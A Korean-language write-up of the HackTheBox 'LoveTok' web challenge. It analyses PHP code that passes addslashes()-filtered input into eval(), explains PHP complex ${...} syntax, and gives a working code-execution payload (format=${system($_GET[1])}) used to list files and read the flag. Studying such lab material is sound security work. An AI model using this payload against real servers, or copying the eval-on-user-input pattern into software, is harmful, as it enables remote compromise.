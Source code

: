 ```yaml
---
title: '[Hackthebox] Lovetok'
author: hoppi
date: 2022-12-23 01:20:00 + 0100
categories: [Web]
tags: [hackthebox, lovetok, php]
---
```

**키워드: PHP, addslashes()**  
  
![describtion](../../../assets/img/2022-12-23/2022-12-23-description.png){: w="600" h="300" }  
# 코드 분석
***
index 관련 함수를 보면 format 파라미터를 통해 `TimeModel` 생성자의 인자 값을 전달한다. 그리고 `getTime` 함수를 호출한다.

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```   
{: file="TimeController.php" }

<br><br/>
생성자 부분을 보면 `$format` 변수를 `addslashes` 함수를 통해서 필터링을 해주고 `date` 함수의 인자 값으로 들어간다.
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));'); // strtotime -> 텍스트를 시간으로 변환 반환 값은 유닉스타임스탬프
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
{: file="TimeModel.php" }  

# 취약점
***
## addslashes() bypass using complex Syntax
***  
`addslashes` 함수 우회를 통해서 [SQL Injection](https://www.securityidiots.com/Web-Pentest/SQL-Injection/addslashes-bypass-sql-injection.html)을 할 수 있지만 이 문제와는 맞지 않는다. 바로 `complex syntax`을 이용하는 방법이다. 먼저 아래와 같이 작은따옴표와 큰따옴표로 둘러싸여 있을때 차이가 있다.
```shell
php > $a = 1;
php > echo 'a is $a';
a is $a
php > echo "a is $a";
a is 1 
```
<br><br/>
또한 아래와 같이 내가 원하는 값은 `'bad'` 인데 그것을 표현하기 위해 `complex syntax`를 아래와 같이 이용할 수 있다.
```shell
php > $abc='ba';
php > echo "$abcd";
PHP Warning:  Undefined variable $abcd in php shell code on line 1

php > echo "${abc}d";
bad
```

<br><br/>
그리고 이런식의 중괄호 안에 함수가 들어갈 수 있는데 <u>먼저 함수를 실행한 뒤</u>, 함수에서 반환되는 값을 변수 이름으로 설정하고 값 할당이 가능해진다. (phpinfo 함수가 먼저 실행된 모습)
```shell
php > var_dump(${phpinfo()}=123);

...

PHP Quality Assurance Team
Ilia Alshanetsky, Joerg Behrens, Antony Dovgal, Stefan Esser, Moriyoshi Koizumi, Magnus Maatta, Sebastian Nohn, Derick Rethans, Melvyn Sopacua, Pierre-Alain Joye, Dmitry Stogov, Felipe Pena, David Soria Parra, Stanislav Malyshev, Julien Pauli, Stephen Zarkos, Anatol Belski, Remi Collet, Ferenc Kovacs

                     Websites and Infrastructure team
PHP Websites Team => Rasmus Lerdorf, Hannes Magnusson, Philip Olson, Lukas Kahwe Smith, Pierre-Alain Joye, Kalle Sommer Nielsen, Peter Cowburn, Adam Harvey, Ferenc Kovacs, Levi Morrison
Event Maintainers => Damien Seguy, Daniel P. Brown
Network Infrastructure => Daniel P. Brown
Windows Infrastructure => Alex Schoenmaker

PHP License
This program is free software; you can redistribute it and/or modify
it under the terms of the PHP License as published by the PHP Group
and included in the distribution in the file:  LICENSE

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

If you did not receive a copy of the PHP license, or have any
questions about PHP licensing, please contact license@php.net.

int(123) 
php > var_dump($a=123);
int(123)
```


# Exploit
***
`eval` 함수를 통해서 `date` 함수를 이용하는데 첫 번째 파라미터는 string 형태의 `$format` 인데 만약 일치하는 [포맷](https://www.w3schools.com/php/func_date_date.asp)이 없으면 그대로 출력하는 것을 볼 수 있다. (A → AM을 나타냄)  
그렇기 때문에 `complex syntax`를 이용하여 `${system()}` 처럼 `system` 함수가 먼저 실행되게 하여  명령어 결과를 볼 수 있다.  
![describtion](../../../assets/img/2022-12-23/2022-12-23-am.png){: w="600" h="300" }
_/?format=A$$$_  
<b></b>
따라서 다음과 같은 페이로드가 가능하다. <u>하지만 따옴표는 기본적으로 addslashes 함수에 걸리기 때문에 사용할 수 없어서 1이라는 파라미터를 따로 설정하여 명령어를 system 함수의 인자로 넣어줘야한다.</u>
```
/?format=${system($_GET[1])}&1=ls%20-al
```    
![describtion](../../../assets/img/2022-12-23/2022-12-23-ls.png){: w="600" h="300" }
_/?format=${system($_GET[1])}&1=cat%20/ls%20-al%20/_


![describtion](../../../assets/img/2022-12-23/2022-12-23-flag.png){: w="600" h="300" }
_/?format=${system($_GET[1])}&1=cat%20/flag*_  

# Reference
***
- https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php